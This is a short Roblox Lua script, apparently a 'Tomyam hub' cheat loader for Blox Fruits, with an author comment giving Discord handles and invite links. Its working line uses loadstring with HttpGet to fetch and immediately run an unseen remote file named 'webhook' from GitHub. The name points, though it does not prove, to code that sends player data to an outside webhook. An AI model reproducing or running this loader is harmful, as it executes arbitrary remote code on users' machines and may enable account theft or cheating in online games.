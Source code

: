 --[[
    script made by Dakii & Minh -- or call me by the name you like (@dakii_90790 & @player.81 in discord🤡)
    18/10/ ? VN
          9 8 0 1 2 3 4 5 6 7 
    bio : https://bio.site/m1m - my server : https://dsc.gg/m1m-link
    Tomyam hub - blox fruits
--]]
repeat wait() until game:IsLoaded() and game.Players.LocalPlayer
loadstring(game:HttpGet("https://raw.githubusercontent.com/m1M-Plqer819/any/main/webhook"))()
